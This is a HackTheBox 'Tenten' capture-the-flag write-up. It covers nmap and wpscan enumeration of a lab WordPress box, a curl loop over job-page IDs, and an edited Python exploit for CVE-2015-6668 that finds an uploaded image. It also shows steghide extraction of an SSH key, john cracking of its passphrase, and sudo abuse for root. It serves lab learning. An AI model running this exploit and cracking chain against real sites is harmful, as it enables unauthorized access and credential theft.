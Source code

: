 ```yaml
---
layout: page
title: HackTheBox Tenten Writeup
---
```


Tenten is a box that is running a web server that has wordpress. By doing this box, I learned how to enumerate wordpress and how to exploit outdated plugins. From here, this box is more CTF-like as there's an image with an id-rsa key hidden in it. For this part I used steghide and simply cracked it to find the password.

### Enumeration
To first enumerate the service, I run an nmap scan: ```nmap -sC -sV -oA scan 10.10.10.10```. This will create a file called ```scan.nmap``` which we can ```cat```. One can similarly use zenmap to get similar output. Shown below is the output the nmap scan gave me and the nmap report of the ports/hosts:
```
nmap -sC -sV -oA scan 10.10.10.10
Nmap scan report for 10.10.10.10
Host is up (0.061s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 17 01:57:49 2019 -- 1 IP address (1 host up) scanned in 16.18 seconds
```

![tenten](https://user-images.githubusercontent.com/41026969/52909819-4bb45400-325c-11e9-95f3-3e21e96ac4c7.PNG)

So we see that OpenSSH is open. We also see that the machine is running an Apache server with Wordpress, let's check out the website:

![tenten](https://user-images.githubusercontent.com/41026969/52909859-c41b1500-325c-11e9-82b6-306798925e27.PNG)

Investigating the page, we see that it's running a basic version of Wordpress. We can do further enumeration using ```wpscan```.

The command I use is:
```
root@josh0402:~/Desktop/Hacky Sack/!PenTesting/htb-tenten# wpscan --url http://10.10.10.10 --enumerate u 
```

This allows us the scan for potential vulnerabilities as well as enumerate users. This is what it outputs:

![image](https://user-images.githubusercontent.com/41026969/57188384-b8d69d80-6ecb-11e9-9720-e49dada4fe95.png)

### Exploitation

We see there is one username which is ```Takis```. Furthermore, we see there's an old job manager plugin with a few vulnerabilities that ```wpscan``` has shown us. Basically we are able to view different job applications and pages by changing the URL. For example, on this site, (from the homepage ```10.10.10.10```) we can click on ```Job Listing``` and ```Apply Now```. This will bring us to the following URL:
```
http://10.10.10.10/index.php/jobs/apply/8/
```

We can edit the ```/8/``` and play around with the numbers to view pages we aren't supposed to view.

Using curl and the source page (doing ```CTRL + U``` for source page), we can simply type up a script to check the different page titles in the source page. Here's what I typed up:
```
root@josh0402:~/Desktop/Hacky Sack/!PenTesting/htb-tenten# for i in $(seq 1 20); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep '<title>'; done
```

Here's what it outputted:

![image](https://user-images.githubusercontent.com/41026969/57188569-e96c0680-6ece-11e9-847c-342ff636e1fa.png)

We see an interesting title page called ```HackerAccessGranted```...

Going back through the ```wpscan``` and looking through each link, [this website](https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/) has python code we can edit to get the picture ```HackerAccessGranted``` uploaded. Looking at the python code, I noticed it had some outdated dates and the file types had to be changed since we're looking for a picture, here's what I updated the code to:
```python
import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2013,2019):  
    for i in range(1,13):
        for extension in {'jpg','png','jpeg'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
 ```
Now running the code we get the link to the picture:
```
root@josh0402:~/Desktop/Hacky Sack/!PenTesting/htb-tenten# python edited_exploit.py 
  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  

Enter a vulnerable website: http://10.10.10.10
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```
The picture of the file:

![HackerAccessGranted](https://user-images.githubusercontent.com/41026969/57188672-e07c3480-6ed0-11e9-92c5-3aef6963d9c5.jpg)

Doing several checks like binwalk and strings, nothing showed up. After installing ```steghide``` (a steganography tool) I did further analysis:
```
root@josh0402:~/Desktop/Hacky Sack/!PenTesting/htb-tenten# steghide extract -sf HackerAccessGranted.jpg 
Enter passphrase: 
wrote extracted data to "id_rsa".
```

Doing ```cat id_rsa``` we see that hidden in the image there's an RSA key!

![image](https://user-images.githubusercontent.com/41026969/57188781-2be31280-6ed2-11e9-974b-0654f5b3917e.png)

Using [this website](http://www.cables.ws/cracking-rsa-private-key-passphrase-with-john-the-ripper/) as reference, I was able to crack the RSA key shown below:

First I converted it to john format and saved it as ```id_rsa_johnfile```:
```
root@josh0402:~/Desktop/Hacky Sack/!PenTesting/htb-tenten# ssh2john id_rsa > id_rsa_johnfile
```

Then since I've never used the ```rockyou.txt``` wordlist (which is usually the default people use to CTF), I had to unzip it:
```
root@josh0402:~/Desktop/Hacky Sack/!PenTesting/htb-tenten# sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

Last, we can do ```john -show ida_rsa_johnfile``` to view the cracked password:

![image](https://user-images.githubusercontent.com/41026969/57188856-d445a680-6ed3-11e9-99ce-a0162ee28c89.png)

Now we can try to log into Takis (the user we found from the ```wpscan``` from above) using the passphrase ```superpassword```.

##### note: you may need to do ```chmod 600 id_rsa``` to change the permissions for the originally rsa key

![image](https://user-images.githubusercontent.com/41026969/57188895-b167c200-6ed4-11e9-89f5-edb44aea436d.png)

We got a shell along with the ```user``` flag. Doing a quick ```sudo -l``` check reveals we can run a bash script called ```fuckin``` at ```/bin/fuckin```. Looking at what it does it simply executes arguments.

Doing ```sudo /bin/fuckin bash``` gets us root!

### Flags:
user: ```/home/takis/user.txt```

root: ```/root/root.txt```